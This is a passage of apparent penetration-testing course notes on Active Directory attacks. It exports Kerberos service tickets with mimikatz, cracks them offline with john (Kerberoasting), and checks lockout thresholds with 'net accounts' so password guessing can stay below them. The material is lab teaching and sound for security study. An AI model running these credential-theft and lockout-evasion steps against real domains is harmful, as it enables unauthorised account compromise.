 After running, the requested service ticket should be generated and in the memory. We can use another command to display cached Kerberos tickets.

```
PS C:\Users\offsec.CORP> klist
Cached Tickets: (4)
...
#1>	Client: Offsec @ CORP.COM
	Server: HTTP/CorpWebServer.corp.com @ CORP.COM
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40a50000 -> forwardable renewable 
...
```

With the service ticket in memory, we can use mimikatz or built-in APIs. To download with mimikatz, we use the kerberos::list command, which does the same thing as the klist command. We can add the /export flag to download this to disk.

```
mimikatz # kerberos::list /export
...
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ;
   \* Saved to file     : 1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

According to the Kerberos protocol, the service ticket is encrypted using the SPN's password hash.  If we are able to request and decrypt using brute force or guessing(this is known as **Kerberoasting**), we will get the password hash.&#x20;

To break the hash, we can just use john.

```
kirbi2john ticket.kirbi > ticket.john
john --wordlist=passwords.txt --format=krb5tgs ticket.john
```

### Low and Slow Password Guessing

We can see that service accounts can be used to mount attack vectors from the Kerberos protocol, but AD can also provide information that can be used to guess passwords. When performing a brute force or wordlist attack, account lockouts are an inevitable issue that may alert system administrators.&#x20;

We will use LDAP and ADSI instead to perform a "low and slow" password attack against AD users without triggering an account lockout.

First, we need to see the account lockout threshold with the net.exe command to see how many failed logins we can attempt.

```
PS C:\Users\Offsec.corp> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          0
Maximum password age (days):                          42
Minimum password length:                              0
Length of password history maintained:                None
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        WORKSTATION
The command completed successfully.
```
